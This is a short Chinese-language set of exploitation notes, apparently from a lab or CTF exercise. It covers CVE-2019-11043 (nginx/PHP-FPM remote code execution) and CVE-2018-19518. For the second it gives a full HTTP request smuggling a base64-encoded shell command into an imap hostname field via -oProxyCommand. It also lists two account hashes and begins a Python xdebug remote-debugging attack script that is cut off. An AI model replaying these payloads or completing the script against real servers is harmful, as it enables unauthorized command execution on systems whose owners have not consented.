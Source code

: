### 0X01 CVE-2019-11043

![image-20210504223729530](https://i.loli.net/2021/05/04/tLPV9ikbX1BJyGz.png)

直接就无条件rce了。原因是`nginx中一些错误的配置导致`的。

![image-20210504223905284](https://i.loli.net/2021/05/04/UgtFilVeob3QGRL.png)

```
test: 63a44f5fd4368923e62469611d232a02
admin: 9c618e664319512ef7db2d3c0672bee0
```

### 0x02 CVE-2018-19518

发包

```
POST / HTTP/1.1
Host: XXX:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://XXX:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 126
Connection: close
Upgrade-Insecure-Requests: 1

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}a&username=222&password=333

```

### 0x03 xdebug远程调试

```
#!/usr/bin/env python3
import re
import sys
import time
import requests
import argparse
import socket
import base64
import binascii
from concurrent.futures import ThreadPoolExecutor


pool = ThreadPoolExecutor(1)
session = requests.session()
session.headers = {
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}

def recv_xml(sock):
    blocks = []
    data = b''
    while True:
        try:
            data = data + sock.recv(1024)
        except socket.error as e:
            break
        if not data:
```